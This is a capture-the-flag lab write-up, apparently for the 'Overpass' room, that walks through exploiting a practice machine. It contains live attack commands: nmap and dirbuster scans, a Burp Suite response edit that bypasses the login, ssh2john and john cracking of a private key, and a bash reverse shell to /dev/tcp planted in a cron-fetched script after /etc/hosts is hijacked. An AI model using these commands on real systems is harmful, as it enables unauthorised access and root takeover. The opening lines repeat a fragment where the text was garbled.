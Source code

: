 1. Recon
   - `nmap -sV -sC -vv -A -T5 10.10.117.88`
   - ports discovered: 22 & 80


2. Enumerate the directories with dirbuster
   - `dirbuster -l /usr/share/wo1. Recon
   - `nmap -sV -sC -vv -A -T5 10.10.117.88`
   - ports discovered: 22 & 80


2. Enumerate the directories with dirbuster
   - `dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://<target-ip>` 


3. failed attempts
   - /admin is SQLi protected
   - basic credentials like admin and guest with passwords admin and 12345 didn't work

4. Discoveries
   - found logic behind the login and ended up trying to bypass it with burp suite

5. bypass the login logic with burp suite
    - installed foxyproxy extension on the browser and created a simple listener on 127.0.0.1:8080 that burp would use
    - used the Proxy tab in burp to intercept the login request and and configured it to receive the response to the login request
    - altered the login failure to a redirect to the page
      ```sh
      HTTP/1.1 302 FOUND
      Date: Mon, 20 Jul 2020 14:33:13 GMT
      Content-Length: 21
      Content-Type: text/plain; charset=utf-8
      Connection: close
      location: /admin
      ```
    - refreshed the webpage and got into a new page that had a private key in in belonging to "james"
    - possible user "Paradox"

6. Access to james' session with ssh
   - `ssh -i priv-key james@<target-ip>` < passphrase was found
   - used john to crack the passphrase
     - `ssh2john priv-key > priv-key.hash`
     - `john james-priv.hash --wordlist=/usr/share/wordlists/rockyou.txt`
   - passphrase: james13

7. Accessed james' session and found the first flag
   - thm{65c1aaf000506e56996822c6281e6bf7}
  
8. Ran linpeas on the target machine
   - found a cron job running as root
   - found /etc/hosts as rw to anyone

9. Privilege escalation attempt
   - because the machine has a cronjob that runs a script from overpass.thm/downloads/src/buildscript.sh, I need to create the path in my local machine and open an http server and a nc listener so that the target machine can connect to my machine via the cronjob(after changing the overpass.thm's ip in /etc/hosts)
   - changed overpass.thm's ip in /etc/hosts to my local machine ip
   - opened a nc listener on port 9001 `nc -lnvp 9001`
   - created the necessary paths(./downloads/src/buildscript.sh) so that the cron job fetches the script correctly
   - opened an http server on my local machine so that the curl will refer to my local machine `python3 -m http.server 80`
   - added this shell code to buildscript.sh in my local machine inside /download/src/buildscript.sh
   -`bash -i >& /dev/tcp/<local-machine-ip>/9001 0>&1`

10. Got root after the cronjob ran and found the flag
    - thm{123cewfa00ey0e6yrt56954386321e61wqa}
